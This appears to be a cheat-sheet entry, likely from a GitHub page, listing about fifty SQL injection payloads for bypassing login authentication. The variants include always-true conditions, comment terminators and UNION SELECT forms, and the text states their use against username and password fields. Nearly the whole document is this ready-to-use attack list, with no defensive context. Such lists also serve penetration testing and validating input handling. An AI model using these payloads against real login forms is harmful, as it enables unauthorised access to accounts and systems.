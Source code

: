 ```sql
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin"
```
- **Description**: Bypasses authentication by making the condition always true.
- **Use Case**: Login forms with username and password fields.

---